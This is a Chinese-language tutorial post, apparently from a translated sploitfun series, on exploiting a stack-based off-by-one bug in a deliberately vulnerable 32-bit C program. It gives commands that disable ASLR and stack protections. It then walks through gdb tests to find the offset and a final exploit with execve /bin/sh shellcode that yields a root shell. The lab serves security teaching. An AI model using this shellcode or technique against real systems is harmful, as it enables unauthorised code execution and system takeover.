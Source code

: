 ```yaml
---
layout: post
title: 基于栈的Off-By-One漏洞
excerpt: "sploitfun系列教程之1.3基于栈的Off-By-One漏洞"
categories: [sploitfun系列教程]
comments: true
---
```


#### 什么是off by one？
将源字符串复制到目标缓冲区可能会导致off by one

1. 源字符串长度等于目标缓冲区长度。

当源字符串长度等于目标缓冲区长度时，单个NULL字节将被复制到目标缓冲区上方。这里由于目标缓冲区位于堆栈中，所以单个NULL字节可以覆盖存储在堆栈中的调用者的EBP的最低有效位（LSB），这可能导致任意的代码执行。

漏洞代码：
```
//vuln.c
#include <stdio.h>
#include <string.h>

void foo(char* arg);
void bar(char* arg);

void foo(char* arg) {
 bar(arg); /* [1] */
}

void bar(char* arg) {
 char buf[256];
 strcpy(buf, arg); /* [2] */				//当长度等于256,就会off by one,将\0a溢出到ebp中
}

int main(int argc, char *argv[]) {
 if(strlen(argv[1])>256) { /* [3] */			// 长度大于256会结束
  printf("Attempted Buffer Overflow\n");
  fflush(stdout);
  return -1;
 }
 foo(argv[1]); /* [4] */
 return 0;
}
```
编译：
```
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vuln vuln.c -m32 -g	#注意加上-m32 ，64位的mpreferred-stack-boundary是4到12之间
chmod 777 vuln
```
上述漏洞代码注释的第[2]部分是可能发生off by one溢出的地方。目标缓冲区长度为256，因此长度为256字节的源字符串可能导致任意代码执行。

#### 如何执行任意代码执行？

使用称为“EBP覆盖”的技术实现任意代码执行。如果调用者的EBP位于目标缓冲区之上，则在strcpy之后，单个NULL字节将覆盖调用者EBP的LSB。



#### 堆栈布局（这个图是低地址在下，高地址在上！！注意）

![Image text](https://raw.githubusercontent.com/snappyJack/snappyjack.github.io/master/img/stack_off_by_one.png)

当我们已经知道256字节的用户输入，用空字节可以覆盖foo的EBP的最低一个字节(LSB)。所以当foo的存储在目标缓冲区“buf”之上的EBP被一个NULL字节所覆盖时，ebp从0xbffff2d8变为0xbffff200。从堆栈布局我们可以看到堆栈位置0xbffff200是目标缓冲区“buf”的一部分，由于用户输入被复制到该目标缓冲区，攻击者可以控制这个堆栈位置（0xbffff200），因此他控制指令指针（eip ）使用他可以实现任意代码执行。让我们通过发送一系列256的“A”来测试它。

**测试步骤1：EBP是否覆盖，从而可能覆盖返回地址？**

```bash
gdb vuln
gdb-peda$ r `python -c 'print "A"*256'`
gdb-peda$ p/x $eip
```
结果
```shell
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
gdb-peda$ p/x $eip
$1 = 0x41414141
```
**测试步骤2：距离目标缓冲区的偏移是多少？**
```shell
r `python -c 'print "A"*212 + "C"*4+ "A"*40'`

```

#### 最终exp
查看buf变量地址
```shell
gdb-peda$ p &buf
$3 = (char (*)[256]) 0xffffd430
```
最终exp
```shell
gdb vuln
gdb-peda$ r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
```
结果
```shell
gdb-peda$ r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
Starting program: /root/sploitfun/vuln `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
process 16943 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
sh-4.2# 
```